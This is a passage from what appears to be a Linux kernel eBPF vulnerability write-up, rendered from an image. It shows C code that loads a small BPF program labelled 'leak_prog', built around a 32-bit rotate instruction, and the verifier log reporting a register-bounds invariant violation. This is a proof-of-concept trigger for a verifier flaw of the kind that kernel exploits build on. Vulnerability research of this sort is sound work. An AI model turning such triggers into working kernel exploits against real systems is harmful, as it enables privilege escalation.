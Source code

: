```c
    if(payload_size != write(socks[1], payload, payload_size))
    {
        goto done;
    }
    ret = 0;

done:
    close(socks[0]);
    close(socks[1]);
    return ret;
}

void test_program(){
    struct bpf_insn leak_prog[] = {

        BPF_MOV32_IMM(BPF_REG_6, 0x2),
        BPF_ALU32_IMM(BPF_ROL, BPF_REG_6, 31),

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
    };


    int prog_fd = prog_load(leak_prog, sizeof(leak_prog) / sizeof(struct bpf_insn));
    printf("[+] prog_fd: %d\n", prog_fd);

    char buf[0x200] = { 0 };

    if (run_prog(prog_fd, buf, 0x200) < 0)
        die("[!] Failed to run prog");
}
```

Upon loading the following we can get the log below:

```
Live regs before insn:
  0: .......... (b4) w6 = 2
  1: ......6... (e4) w6 rol 31
  2: .......... (b7) r0 = 0
  3: 0......... (95) exit
0: R1=ctx() R10=fp0
0: (b4) w6 = 2                        ; R6_w=P2
1: (e4) w6 rol 31

[3]

REG INVARIANTS VIOLATION (alu): range bounds violation u64=[0x2, 0x0] s64=[0x2, 0x0] u32=[0x2, 0x0] s32=[0x2, 0x0] var_off=(0x0, 0x0)
2: R6_w=P0
2: (b7) r0 = 0                        ; R0_w=P0
3: (95) exit
processed 4 insns (limit 1000000) max_states_per_insn 0 total_states 0 peak_states 0 mark_read 0

LOG_END
```
